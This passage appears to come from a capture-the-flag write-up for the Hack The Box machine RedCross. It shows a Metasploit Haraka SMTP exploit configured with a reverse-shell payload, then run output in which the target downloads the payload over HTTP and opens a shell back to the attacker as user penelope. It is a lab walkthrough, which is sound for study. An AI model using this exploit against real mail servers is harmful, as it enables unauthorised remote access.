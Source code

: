 Alternatively, there is a metasploit module that also worked. Here’s my configuration:

```

msf5 exploit(linux/smtp/haraka) > options

Module options (exploit/linux/smtp/haraka):

   Name        Current Setting        Required  Description
   ----        ---------------        --------  -----------
   SRVHOST     0.0.0.0                yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0                                                                                       
   SRVPORT     8008                   yes       The local port to listen on.
   SSL         false                  no        Negotiate SSL for incoming connections
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)                                                                                                           
   URIPATH                            no        The URI to use for this exploit (default is random)
   email_from  0xdf@redcross.htb      yes       Address to send from
   email_to    penelope@redcross.htb  yes       Email to send to, must be accepted by the server
   rhost       10.10.10.113           yes       Target server
   rport       1025                   yes       Target server port

Payload options (linux/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   linux x64

```

Now run it to get a shell as actual penelope:

```

msf5 exploit(linux/smtp/haraka) > run

[*] Started reverse TCP handler on 10.10.14.14:443
[*] Exploiting...
[*] Using URL: http://0.0.0.0:8008/PxA0ZIx
[*] Local IP: http://10.1.1.41:8008/PxA0ZIx
[*] Sending mail to target server...
[*] Client 10.10.10.113 (Wget/1.18 (linux-gnu)) requested /PxA0ZIx
[*] Sending payload to 10.10.10.113 (Wget/1.18 (linux-gnu))
[*] Command shell session 1 opened (10.10.14.14:443 -> 10.10.10.113:47192) at 2019-04-02 14:35:27 -0400
[+] Triggered bug in target server (plugin timeout)
[*] Command Stager progress - 100.00% done (111/111 bytes)
[*] Server stopped.
id
uid=1000(penelope) gid=1000(penelope) groups=1000(penelope)

```
